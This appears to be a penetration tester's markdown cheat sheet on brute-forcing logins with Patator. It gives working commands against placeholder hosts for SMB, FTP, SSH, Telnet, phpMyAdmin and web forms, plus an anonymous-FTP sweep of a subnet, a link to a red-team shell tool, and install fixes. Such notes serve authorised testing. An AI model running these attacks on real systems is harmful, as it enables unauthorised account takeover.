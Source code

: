 # Brute-forcing
If we gain creds from one machine, we will try it on other machines.

## Using Patator (Python)
```
https://github.com/lanjelot/patator
```

To get example commands:
```
/patator.py <module> -h
```

You can do *host=FILE0* and give the host file names using *0=hosts.txt*

## SMB
```
smb_login host=10.0.0.1 user=FILE0 password=FILE1 0=logins.txt 1=passwords.txt -x ignore:fgrep=STATUS_LOGON_FAILURE
```

## FTP -  Brute-force authentication. Do not report wrong passwords. 
```
ftp_login host=10.0.0.1 user=FILE0 password=FILE1 0=logins.txt 1=passwords.txt -x ignore:mesg='Login incorrect.'
```

*If you get errors like "500 OOPS: priv_sock_get_cmd", use -x ignore,reset,retry:code=500 in order to retry the last login/password using a new TCP connection. Odd servers like vsftpd return this when they shut down the TCP connection (ie. max login attempts reached).*

If you want to stop testing when password is found:
```
ftp_login ... -x free=user:code=0
```

### Find anonymous ftp enabled machines
```
ftp_login host=NET0 user=anonymous password=test@example.com 0=10.0.0.0/24
```

## SSH  Brute-force several hosts and stop testing a host after a valid password is found. 
```
ssh_login host=FILE0 user=FILE1 password=FILE2 0=hosts.txt 1=logins.txt 2=passwords.txt -x free=host:code=0
```

## Telnet
```
telnet_login host=10.0.0.1 inputs='FILE0\nFILE1' 0=logins.txt 1=passwords.txt prompt_re='tux login:|Password:' -x reset:egrep!='Login incorrect.+tux login:'
```

## PHPMyAdmin
```
http_fuzz url=http://10.0.0.1/phpmyadmin/index.php method=POST follow=1 accept_cookie=1 body='pma_username=root&pma_password=FILE0&server=1&lang=en' 0=passwords.txt -x ignore:fgrep='Cannot log in to the MySQL server'
```

##  Brute-force website logon using GET requests
```
http_fuzz url='http://10.0.0.1/login?username=admin&password=_@@_FILE0_@@_' -e _@@_:hex 0=words.txt -x ignore:'code=200|size=1500-|fgrep=Welcome, unauthenticated user' -X '|'
```

# GoRedShell
```
https://github.com/ahhh/GoRedShell/releases
```


# PATATOR
```
apt-get update && apt-get upgrade
apt install git
git clone https://github.com/lanjelot/patator.git
chmod 777 patator
cd patator
```
vi requirements.txt and if version is below 3, uncomment the 1st req that is commented out, leave pysqlcipher commented!!!!
```
pip install -r requirement.txt
```
PYCURL ERROR
having to do with egg info or something
HOW TO FIX:
```
sudo apt-get install libcurl-gnutls-dev
sudo apt-get install libgnutls-dev
pip install pycurl
```
MYSQL ERROR
environment error: Mysql config not found
FIX:
```
sudo apt install libmysqlclient-dev OR IF NEWER
sudo apt install default-libmysqlclient-dev
```
```
https://gist.github.com/superkojiman/11076951
```
